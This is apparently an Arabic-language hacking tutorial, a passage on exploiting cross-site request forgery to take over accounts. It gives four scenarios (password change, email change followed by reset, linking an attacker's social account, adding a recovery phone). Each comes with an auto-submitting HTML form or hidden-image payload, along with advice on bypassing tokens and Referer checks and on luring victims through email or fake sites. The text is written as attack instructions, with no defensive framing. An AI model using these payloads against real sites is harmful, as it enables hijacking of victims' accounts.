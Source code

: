 #### **الخلاصة بالعامية**:
لو الموقع حاطط Token، جرب تبعت طلب من غيره أو بـ Token قديم. لو بيعتمد على Referer، أرسل طلب فاضي. لو لقيت XSS، استخدمها عشان تخلّي الهجوم أقوى. فحّص كل حماية وشوف فين الفتحة.

---

### **4. سيناريوهات استغلال CSRF لسرقة الحسابات**

#### **سيناريو 1: تغيير كلمة السر**
- **الوصف**: موقع بيسمح بتغيير كلمة السر بطلب POST أو GET.
- **الاستغلال**:
  - أنشئ صفحة HTML تبعت طلب POST:
    ```html
    <form action="/change-password" method="POST" id="csrf-form">
      <input type="hidden" name="new_password" value="attacker123">
    </form>
    <script>document.getElementById("csrf-form").submit();</script>
    ```
  - أرسل رابط الصفحة للضحية عبر إيميل أو موقع مزيف.
  - بعد تغيير الباسوورد، سجل دخول بالحساب.

#### **سيناريو 2: تغيير البريد الإلكتروني**
- **الوصف**: موقع بيسمح بتحديث الإيميل بطلب GET أو POST.
- **الاستغلال**:
  - لو GET، استخدم صورة:
    ```html
    <img src="/update-email?email=attacker@example.com" style="display:none">
    ```
  - لو POST، استخدم نموذج HTML.
  - بعد تغيير الإيميل، استخدم خاصية "نسيت كلمة السر" للسيطرة على الحساب.

#### **سيناريو 3: ربط حساب خارجي**
- **الوصف**: موقع بيسمح بربط حسابات اجتماعية (مثل Google أو Facebook).
- **الاستغلال**:
  - أنشئ طلب POST يربط حساب الضحية بحسابك:
    ```html
    <form action="/link-account" method="POST" id="csrf-form">
      <input type="hidden" name="provider" value="google">
      <input type="hidden" name="token" value="attacker_google_token">
    </form>
    <script>document.getElementById("csrf-form").submit();</script>
    ```
  - سجل دخول باستخدام حسابك الاجتماعي.

#### **سيناريو 4: إضافة رقم هاتف للاسترداد**
- **الوصف**: موقع بيسمح بإضافة رقم هاتف لاسترداد الحساب.
- **الاستغلال**:
  - أنشئ طلب POST يضيف رقم هاتفك:
    ```html
    <form action="/add-recovery-phone" method="POST" id="csrf-form">
      <input type="hidden" name="phone" value="+1234567890">
    </form>
    <script>document.getElementById("csrf-form").submit();</script>
    ```
  - استخدم الرقم لاسترداد الحساب.
